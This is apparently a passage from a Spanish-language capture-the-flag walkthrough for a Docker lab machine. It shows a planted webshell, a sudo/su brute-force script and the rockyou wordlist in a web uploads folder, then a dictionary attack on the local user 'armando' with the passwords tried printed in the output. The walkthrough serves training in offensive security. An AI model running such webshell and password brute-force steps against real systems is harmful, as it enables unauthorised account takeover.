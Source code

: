 ```java
drwxr-xr-x 1 www-data www-data       118 Dec 26 04:03 ..
-rwxr-xr-x 1 www-data www-data     21752 Dec 20 13:48 .shell.php
-rwxr-xr-x 1 www-data www-data      9879 Dec 20 13:48 index.php
-rwxr-xr-x 1 www-data www-data    271755 Dec 22 19:52 memaso.png
-rw-r--r-- 1 www-data www-data 139921497 Dec  8  2021 rockyou.txt
-rw-r--r-- 1 www-data www-data     20974 Jan 26 03:34 shell.php
-rw-r--r-- 1 www-data www-data      1600 Jan 26 04:36 su.sh
-rwxr-xr-x 1 www-data www-data        25 Dec 20 13:48 test.txt
```

Así pues ya tenemos los archivos:
- **`shell.php`** : WebShell desde donde ejecutaremos el archivo `su.sh`.
- **`su.sh`** : Archivo bash de Sudo_Bruteforce
- **`rockyou.txt`** : WordList que se usará para el ataque de diccionario al usuario `armando`.

Vamos a proceder a ejecutar el archivo
```java
www-data@861ac52240d6:…/html/uploads# bash su.sh

Uso: su.sh USUARIO DICCIONARIO
Se deben especificar tanto el nombre de usuario como el archivo de diccionario.

www-data@861ac52240d6:…/html/uploads# bash su.sh armando rockyou.txt >> result.txt 2> errors.txt
```
Ahora podemos ir observando si el archivo result.txt contiene la cadena `"encontrada para el usuario"` 

```java
www-data@b832447fdf7a:…/html/uploads# bash su.sh armando rockyou.txt

***********************************************
*                                             *
*          ██████╗ ██████╗ ██╗   ██╗          *
*         ██╔════╝██╔═══██╗██║   ██║          *
*         ██║     ██║   ██║██║   ██║          *
*         ██║     ██║   ██║╚██████╔╝          *
*         ╚═╝     ╚═╝   ╚═╝ ╚═════╝           *
*                                             *
*       Bienvenido a BruteForce SU            *
*       ¡Hackea con responsabilidad!          *
***********************************************

Probando contraseña [Línea 1]: 123456
Probando contraseña [Línea 2]: 12345
Probando contraseña [Línea 3]: 123456789
Probando contraseña [Línea 4]: password
Probando contraseña [Línea 5]: iloveyou
Probando contraseña [Línea 6]: princess
Probando contraseña [Línea 7]: 1234567
Probando contraseña [Línea 8]: rockyou
Probando contraseña [Línea 9]: 12345678
Probando contraseña [Línea 10]: abc123
Probando contraseña [Línea 11]: nicole
Probando contraseña [Línea 12]: daniel
Probando contraseña [Línea 13]: babygirl
Probando contraseña [Línea 14]: monkey
Probando contraseña [Línea 15]: lovely


[...]

Probando contraseña [Línea 8573]: love you
Probando contraseña [Línea 8574]: lavalamp
Probando contraseña [Línea 8575]: kobe08
Probando contraseña [Línea 8576]: kalani
```